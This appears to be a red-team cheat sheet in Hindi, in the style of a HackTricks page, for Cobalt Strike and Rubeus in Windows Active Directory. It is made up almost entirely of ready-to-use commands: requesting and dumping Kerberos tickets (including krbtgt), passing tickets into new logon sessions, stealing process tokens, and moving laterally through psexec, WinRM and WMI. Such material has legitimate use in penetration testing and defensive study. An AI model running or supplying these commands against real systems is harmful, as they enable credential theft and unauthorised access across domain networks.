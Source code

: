 ## SYSTEM से टिकट पास करें
## टिकट के साथ एक नई प्रक्रिया उत्पन्न करें
execute-assembly C:\path\Rubeus.exe asktgt /user:&#x3C;USERNAME> /domain:&#x3C;DOMAIN> /aes256:&#x3C;AES KEY> /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
## उस प्रक्रिया से टोकन चुराएं
steal_token &#x3C;pid>

## टिकट निकालें + टिकट पास करें
### टिकटों की सूची
execute-assembly C:\path\Rubeus.exe triage
### luid द्वारा दिलचस्प टिकट डंप करें
execute-assembly C:\path\Rubeus.exe dump /service:krbtgt /luid:&#x3C;luid> /nowrap
### नया लॉगऑन सत्र बनाएं, luid और processid नोट करें
execute-assembly C:\path\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
### उत्पन्न लॉगऑन सत्र में टिकट डालें
execute-assembly C:\path\Rubeus.exe ptt /luid:0x92a8c /ticket:[...base64-ticket...]
### अंततः, उस नई प्रक्रिया से टोकन चुराएं
steal_token &#x3C;pid>

# Lateral Movement
## यदि एक टोकन बनाया गया है, तो इसका उपयोग किया जाएगा
jump [method] [target] [listener]
## विधियाँ:
## psexec                    x86   एक सेवा का उपयोग करके एक सेवा EXE कलाकृति चलाएँ
## psexec64                  x64   एक सेवा का उपयोग करके एक सेवा EXE कलाकृति चलाएँ
## psexec_psh                x86   एक सेवा का उपयोग करके एक PowerShell एक-लाइनर चलाएँ
## winrm                     x86   WinRM के माध्यम से एक PowerShell स्क्रिप्ट चलाएँ
## winrm64                   x64   WinRM के माध्यम से एक PowerShell स्क्रिप्ट चलाएँ

remote-exec [method] [target] [command]
## विधियाँ:
<strong>## psexec                          सेवा नियंत्रण प्रबंधक के माध्यम से दूरस्थ निष्पादन
</strong>## winrm                           WinRM (PowerShell) के माध्यम से दूरस्थ निष्पादन
## wmi                             WMI के माध्यम से दूरस्थ निष्पादन
